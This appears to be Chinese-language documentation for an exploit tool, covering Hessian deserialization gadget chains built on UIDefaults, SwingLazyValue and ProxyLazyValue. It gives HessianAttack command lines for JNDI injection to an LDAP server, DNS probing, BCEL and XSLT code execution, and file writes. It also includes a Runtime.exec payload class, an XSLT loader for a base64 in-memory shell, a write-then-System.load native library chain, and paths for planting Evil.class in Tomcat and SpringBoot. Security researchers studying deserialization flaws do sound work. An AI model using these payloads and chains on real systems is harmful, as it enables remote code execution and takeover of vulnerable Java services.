但是因为Hessian的反序列化特性中可以用HashMap来触发某个类的getter方法所以自然省略了中间构造toString利用类的步骤，通过getter方法来漏洞利用。最好用的就是`UIDefaults#get(Object key)`​，所以本部分就是LazyValue链相关的利用手法。

漏洞调用栈基本如下：UIDefaults#get 可触发 SwingLazyValue和ProxyLazy的createValue方法

```java
HashMap#readObject
 -HashTable#equals (HashTable是UIDefaults的父类)
	-UIDefaults#get(Object key)
	  -UIDefaults$ProxyLazyValue#createValue(UIDefaults var1)
	  -SwingLazyValue#createValue(UIDefaults var1)
```

#### createValue利用链(SwingLazyValue & ProxyLazyValue)

##### SwingLazyValue#createValue

为什么要用SwingLazyValue#createValue，因为该方法封装反射的API。但是该createValue方法调用反射有如下的限制：

`SwingLazyValue#createValue(UIDefaults var1)`

* Class.forName(this.className,true,(ClassLoader)null) 只会获取 rt.jar 包中的类对象
* var6.invoke(var2,this.args) 可以反射调用 rt.jar 包中类的静态方法
* var4.newInstance(this.args) 可以反射调用 rt.jar 包中类的构造方法

`Class<?> forName(String name, boolean initialize,ClassLoader loader)`​ 的第三个参数是加载类所用的 ClassLoader，如果这个类不在该 ClassLoader 的 ClassPath 下，这样是获得不到该类的类对象的。当 loader 参数为 null 时，表示加载 BootStrapClassloader 的 ClassPath 下的类，相关的研究可以参考[类加载之forName作用域](https://xz.aliyun.com/t/12170#toc-2)。

虽然只能加载 BootStrapClassLoader 加载的对象，但是可以通过 SwingLazyValue + MethodUtil 绕过限制，但是这俩者的组合有不稳定的情况，一般不推荐使用。



bounce.invoke 中的 bounce Method对象来自于 `getTrampoline()`​，该方法返回的是 `sun.reflect.misc.Trampoline`​类的 invoke 方法对应的 Method

```java
private static final Method bounce = getTrampoline();
private static Method getTrampoline() {
    try {
        return (Method)AccessController.doPrivileged(new PrivilegedExceptionAction<Method>() {
            public Method run() throws Exception {
                Class var1 = MethodUtil.getTrampolineClass(); //获取 sun.reflect.misc.Trampoline 对象
                Class[] var2 = new Class[]{Method.class, Object.class, Object[].class};
                Method var3 = var1.getDeclaredMethod("invoke", var2);
                var3.setAccessible(true);
                return var3;
            }
        });
    } catch (Exception var1) {
        throw new InternalError("bouncer cannot be found", var1);
    }
}
```

然后`sun.reflect.misc.Trampoline#invoke`​方法就是个简单的 invoke 操作。没有调用`Method.setAccessible(true)`​来取消 Java 语言的访问检查，所以我们只能调用某个类的 public 方法。所以说`MethodUtils#invoke`​本质还是使用`Trampoline#invoke`​进行反射调用。

```java
private static Object invoke(Method var0, Object var1, Object[] var2) throws InvocationTargetException, IllegalAccessException {
    ensureInvocableMethod(var0);
    return var0.invoke(var1, var2);
}
```

##### ProxyLazyValue#createValue

ProxyLazyValue 是 `UIDefaults` 的静态内部类

`ProxyLazyValue#createValue`​使用起来就要方便很多：

* `Class.forName(className, true, (ClassLoader)cl)`​ 可以加载当前线程上下文classpath中的类
* `MethodUtil#invoke(m,c,args)`​ 调用某个类的 public static 方法
* `constructor#newInstance(args)`​ 调用某个类的 public 构造方法

#### ThreadSleep Except漏洞检测(无法利用)

描述：java.lang.Thread的静态方法sleep可以触发延迟效果，虽然java.lang.Thread的黑名单中，但是SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响。但是因为sleep方法接受的参数是long类型，hessian无法传递这种类型，所以也是无法构造该payload。但还是可以用LazyValue+MethodUtil来触发Thread Sleep。

工具：工具中虽然写了，但是无法利用、、

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:ThreadSleep:5" -hessianType "Hessian2"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:ThreadSleep:5" -hessianType "Hessian2"
```

#### InetAddress DNS出网检测

描述：通过`java.net.InetAddress`​的getByName方法来触发DNS请求以此来探测目标环境是否DNS出网

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:InetAddress:success.dns.cn" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:InetAddress:success.dns.cn" -hessianType "Hessian2"
```

#### SetProperty 设置系统属性

描述：虽然`java.lang.System`​处于caucho hessian最新版的黑名单中，但是JDK系统属性设置是由SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:SetProperty:custom.property:success" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:SetProperty:custom.property:success" -hessianType "Hessian2"
```

#### jndi jndi注入

描述：虽然`javax.naming.x`​处于caucho hessian最新版的黑名单中，但是JNDI注入是由SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响，调用栈如下：

```java
HashMap#readObject
 -HashMap#put
  -HashMap#equals
	-HashTable#get()
	-UIDefaults#get(Object key)
	  -UIDefaults#getFromHashtable(final Object key)
		-UIDefaults$LazyValue#createValue(UIDefaults var1)
		-SwingLazyValue#createValue(UIDefaults var1)
		-ProxyLazyValue#createValue(UIDefaults var1)
```

限制：Hessian版本限制如下

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389/swingLazyValue" -hessianType="Hessian2"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:jndi:ldap://127.0.0.1:1389/proxyLazyValue" -hessianType="Hessian2"
```

#### BCELLoader BCEL字节码加载

描述：`com.sun.org.apache.bcel.internal.util.JavaWrapper`​的`_main`​公开静态方法中会使用BCELCLassLoader来加载BCEL字节码并执行字节码类的`public static void _main(String[] args)`​方法

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

JDK BCELClassLoader <= 8u251

BCEL字节码的类需要这样写才能触发

```java
import java.io.IOException;

public class JavaWrapperMainPayload {
    public static void _main(String[] args){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

使用方式：

```python
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:BCELLoader:auto_cmd:calc" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:BCELLoader:auto_cmd:calc" -hessianType "Hessian2"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数。

#### XSTL 代码执行

描述：`com.sun.org.apache.xalan.internal.xslt.Process`​的`_main`​方法可以执行XSTL文件并进行代码执行，学习自[记一次曲折的XXL-JOB API Hessian反序列化到Getshell](https://forum.butian.net/share/2592)和[JDK Xalan的XSLT整数截断漏洞利用构造](https://flowerwind.github.io/2022/12/29/JDK-Xalan%E7%9A%84XSLT%E6%95%B4%E6%95%B0%E6%88%AA%E6%96%AD%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%9E%84%E9%80%A0/)

工具：接受目标系统中的文件路径然后触发XSTL文件加载

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:XSTL:/tmp/1.xstl" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:XSTL:/tmp/1.xstl" -hessianType "Hessian2"
```

xstl文件命令执行

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
    <xsl:variable name="processString" select="ob:toString($process)"/>
    <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```

xstl文件加载内存马，下面用org.springframework.cglib.core.ReflectUtils加载字节码，依赖于ReflectUtils类的反射，后面可以抽时间优化下

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils"
>
    <xsl:template match="/">
        <xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
        <xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
        <xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
        <xsl:value-of select="$rce"/>
    </xsl:template>
</xsl:stylesheet>

```

#### RuntimeExec 命令执行

描述：`sun.reflect.misc.MethodUtil`​的`invoke`​也是个public static静态方法，它能调用某个对象的方法。因此很容易想到调用Runtime来进行命令执行。但是在对MethodUtil#invoke方法进行传参的时候又需要传递java.lang.Runtime对象，所以在Hessian系列的一些版本中又是打不了的。

限制：对Hessian版本限制如下：

* caucho hessian <= 4.0.59
* sofa hessian <= 4.0.4
* hessian little 都打不了

另外SwingLazyValue/ProxyLazyValue+MethodUtil 构造利用可能触发JVM Crash或打不了情况，所以不是很推荐使用

工具：链子的命令执行传参没有进行

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:RuntimeExec:calc" -hessianType "Hessian2"

#ProxyLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:RuntimeExec:calc" -hessianType "Hessian2"
```

#### Fastjson JSONObject触发getter(未集成)

描述：通过JSONObject的#toString来触发后续利用：[https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/](https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/)

JSON.pase也行，打fastjson反序列化

#### Jackson POJONode触发getter(未集成)

‍

#### JavaUtils 写文件

描述：com.sun.org.apache.xml.internal.security.utils.JavaUtils类的public static静态方法writeBytesToFilename可以传入的文件名和字节数组进行写文件操作，且JavaUtils类位于rt.jar包中方便利用

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外JavaUtils的writeBytesToFilename是使用new File()+new FileOutputStream()来写入文件，所以需要写入文件的目录存在

工具：最后写文件的格式为：`JavaUtils:{source.file}|{destation.file}`​，工具会读取source.file也就是你本地这个文件的字节数组，然后最后写入的目标系统的文件名是destation.file。

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:JavaUtils:D:\\source\\sour.txt|/tmp/dest.txt" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:JavaUtils:D:\\source\\sour.txt|/tmp/dest.txt" -hessianType "Hessian2"
```

组合利用：既然能写文件，那么操作手法就比较多了。[X1r0z](https://exp10it.io/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/#javautilswritebytestofilename--systemload)将JavaUtils#writeBytesToFilename写文件和System#load组合到一条链子一次性触发：

```java
byte[] content = Files.readAllBytes(Paths.get("/Users/exp10it/exp.dylib"));
SwingLazyValue swingLazyValue1 = new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/exp.dylib", content});
SwingLazyValue swingLazyValue2 = new SwingLazyValue("java.lang.System", "load", new Object[]{"/tmp/exp.dylib"});

UIDefaults u1 = new UIDefaults();
UIDefaults u2 = new UIDefaults();
u1.put("aaa", swingLazyValue1);
u2.put("aaa", swingLazyValue1);

HashMap map1 = HashColl.makeMap(u1, u2);

UIDefaults u3 = new UIDefaults();
UIDefaults u4 = new UIDefaults();
u3.put("bbb", swingLazyValue2);
u4.put("bbb", swingLazyValue2);

HashMap map2 = HashColl.makeMap(u3, u4);

HashMap map = new HashMap();
map.put(1, map1);
map.put(2, map2);
```

其实用的比较多的还时写文件配置XSTL来进行代码执行。

#### spring-core Java反序列化

描述：spring-core依赖中的org.springframework.util.SerializationUtils类有个deserialize静态方法，它能将字节数组进行Java反序列化

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外还需要注意：

* 目标需要引入 spring-core.jar 的依赖
* 俩种利用方式：SwingLazyValue自身的反射利用由于类加载器的缘故只能加载rt.jar包下的类，需要搭配MethodUtil才能继续利用。ProxyLazyValue类加载器源自线程上下文所以没这个限制。
* SwingLazyValue+MethodUtil构造利用可能触发JVM Crash或打不了情况，ProxyLazyValue稳定

工具：推荐使用ProxyLazyValue构造方式，以下示例是使用CommonsBeanutils2二次Java反序列化，在其他的Java反序列化链以此类推

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:SpringCoreDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType "Hessian1"

#ProxyLazyValue测试通过
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:SpringCoreDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType "Hessian2"
```

#### commons-lang Java反序列化

描述：commons-lang依赖中的org.apache.commons.lang.SerializationUtils类有个deserialize静态方法，它能将字节数组进行Java反序列化

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外还需要注意：

* 目标需引入 commons-lang.jar 的依赖
* 俩种利用方式：SwingLazyValue自身的反射利用由于类加载器的缘故只能加载rt.jar包下的类，需要搭配MethodUtil才能继续利用。ProxyLazyValue类加载器源自线程上下文所以没这个限制。
* SwingLazyValue+MethodUtil构造利用可能触发JVM Crash或打不了情况，ProxyLazyValue稳定

工具：推荐使用ProxyLazyValue构造方式，以下示例是使用CommonsBeanutils2二次Java反序列化，在其他的Java反序列化链以此类推

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:CommonsLangDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType="Hessian2"

#ProxyLazyValue测试通过
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:CommonsLangDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType="Hessian2"
```

#### ProxyLazyValue 独立利用

描述：因为ProxyLazyValue进行类加载的加载器是线程上下文类加载器，在某些场景下如果能在上下文类加载器的classpath下写.class文件就可以直接利用ProxyLazyValue进行类加载导致代码执行。强推学习huahua大师傅的[记某次实战hessian不出网反序列化利用](https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/)

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：只支持ProxyLazyValue构造方式，因为它用的是线程上下文类加载器

```
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:ThreadClassLoader:T34403237892999" -hessianType="Hessian2" -writeToFile="/tmp/1.ser"
```

需要搭配写文件漏洞将字节码class文件写在线程上下文类加载器加载的classpath下面：本地测试只能触发一次，所以想变换漏洞利用效果需要重新写并加载

线程上下文类加载器classpath的位置：

- springboot场景下：
  - Windows：C:\Users\Xxxx\AppData\Local\Temp\tomcat-docbase.3584977337134953447.9124\WEB-INF\classes\Evil.class
  - Linux：/tmp/tomcat-docbase.3584977337134953447.9124/WEB-INF/classes/Evil.class
- tomcat场景下：
  - {tomcat.home}/webapps/wuxdiXxxcms/WEB-INF/classes/Evil.class

#### 其他的LazyValue利用方式

[UnSafe-探寻Hessian JDK原生反序列化不出网的任意代码执行利用链](https://blog.wanghw.cn/security/hessian-deserialization-jdk-rce-gadget.html)

#### 打失败的问题(LazyValue+MethodUtil)

构造SwingLazyValue+MethodUtil进行漏洞利用时，会出现打不了的情况，也会有JVM直接crash。使用ProxyLayzValue+MethodUtil也会有这样的问题。学习的时候[X1r0z](https://exp10it.io/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/#serializationutils-%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96--pojonode-%E8%A7%A6%E5%8F%91-templatesimpl)也遇到了这样的情况：

最终[whwlsfb](https://blog.wanghw.cn/security/hessian-deserialization-jdk-rce-gadget.html)大师傅发现在ProxyLazyValue/SwingLazyValue+MethodUtil中不稳定的原因是MethodUtil的问题：

其实总结下来就是如下表格的情况：

|利用方式|静态方法|实例化方法|最终的风险性|
| ---------------------------| --------------------------| ------------| ----------------------------------------------------------------------------------------|
|ProxyLazyValue|无限制包的静态方法|无法触发|稳定|
|SwingLazyValue|仅触发rt.jar中的静态方法|无法触发​|**稳定**|
|ProxyLazyValue+MethodUtil|无限制包的静态方法|可以触发|静态方法稳定<br />实例方法不稳定(可能出现JVM Crash或打不了)<br />|
|SwingLazyValue+MethodUtil|无限制包的静态方法|可以触发|静态方法不稳定(可能出现JVM Crash或打不了)<br />实例方法不稳定(可能出现JVM Crash或打不了)<br />|

### Hessian Except toString利用链

这部分的学习起源于Longofo师傅的这篇博文：[Apache Dubbo Hessian2 异常处理时反序列化(CVE-2021-43297)](https://paper.seebug.org/1814/)，主要就是因为Hessian反序列化时候对序列化字节数组异常的处理有问题。导致攻击者可通过构造特的字节数组(67)来触发反序列化出对象的toString方法从而进行后利用。

#### 各种Hessian系列的expect方法

Hessian Except toString打法主要是Hessian2Input#expect方法中的异常处理利用，这块简单介绍各种Hessian系列中的except方法

##### Cachuo HessianInput#except

Caucho Hessian1的except方法中没有触发Object的toString，所以它不存在Hessian Except toString打法

##### Cachuo Hessian2Input#except

